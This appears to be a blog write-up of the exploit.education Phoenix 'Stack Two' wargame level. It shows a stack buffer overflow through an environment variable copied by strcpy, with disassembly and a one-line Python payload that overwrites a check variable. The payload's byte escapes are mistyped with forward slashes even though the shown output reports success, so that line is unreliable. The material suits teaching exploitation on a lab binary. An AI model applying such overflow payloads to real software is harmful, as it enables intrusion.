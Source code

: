 ```yaml
---
layout: post
title: "exploit.education Phoenix - Stack 0x2"
category: CTF 
tagline:
tags: [binary, exploitation, phoenix, wargame, ctf, learning]
---
```

{% include JB/setup %}

# Stack 2

Write-up for: [https://exploit.education/phoenix/stack-two/](Stack Two)

<!--more-->

Running the binary reveals that we need to change an environment variable

```
user@phoenix-amd64:/opt/phoenix/i486$ ./stack-two
Welcome to phoenix/stack-two, brought to you by https://exploit.education
stack-two: please set the ExploitEducation environment variable
```

After setting the variable, the output changes

```
export ExploitEducation=AAAA
user@phoenix-amd64:/opt/phoenix/i486$ ./stack-two
Welcome to phoenix/stack-two, brought to you by https://exploit.education
Almost! changeme is currently 0x00000000, we want 0x0d0a090a
```

Looking at the disassembly of the main function we can see where the
environment variable is stored:

```
0x0804856e      e8edfdffff     call sym.imp.getenv        ; char *getenv(const char *name);
|           0x08048573      83c410         add esp, 0x10
|           0x08048576      8945f4         mov dword [ebp - local_ch], eax

```

`[ebp - local_ch]` which is at ebp - 0x0C.

This variable is later used in an unsafe call to strcpy where the content of the environment
variable is copied to ebp - local_50h or ebp-0x50. For the success check, the value at ebp - 0x10
is compared to 0xd0a090a. We need a way to write to ebp - 0x10.

The buffer size is 64 bytes. Thus we need to write 64 bytes + the 4 required bytes.

# Exploit

```
user@phoenix-amd64:/opt/phoenix/i486$ export ExploitEducation=`python -c 'print "A"*64 + "/x0a/x09/x0a/x0d"'`         
user@phoenix-amd64:/opt/phoenix/i486$ ./stack-two
Welcome to phoenix/stack-two, brought to you by https://exploit.education
Well done, you have successfully set changeme to the correct value
```
